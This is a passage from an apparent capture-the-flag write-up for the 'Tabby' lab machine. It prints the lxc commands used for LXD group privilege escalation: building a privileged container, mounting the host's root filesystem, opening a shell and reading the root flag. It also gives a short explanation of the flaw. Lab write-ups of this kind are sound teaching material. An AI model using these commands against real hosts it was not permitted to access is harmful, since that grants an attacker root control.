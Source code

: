 ```

![](/img/tabby/2020-12-09_09-35.png)

```
 lxc init ryku-image ignite -c security.privileged=true
 lxc config device add ignite mydevice disk source=/ path=/mnt/root recursive=true
 lxc start ignite
 lxc exec ignite /bin/sh
 id 
```

![](/img/tabby/2020-12-09_09-42.png)

![](/img/tabby/2020-12-09_09-43.png)

We are root! In the container… I mounted my root file system though, so let's check that...

```
 cd /mnt/root
 ls
 cd /root 
```

```
cat root.txt to obtain the flag
```

![](/img/tabby/2020-12-09_09-43_1.png)

**Vulnerability Exploited:**

lxd-privilege-escalation

**Vulnerability Explanation:**

lxd which is a process run by root, this process is used to carry out certain actions for anyone with write access to the lxd socket. It doesn&#39;t usually check to see if the current user vs root user privs are matched, and will go ahead and execute anyway.

###
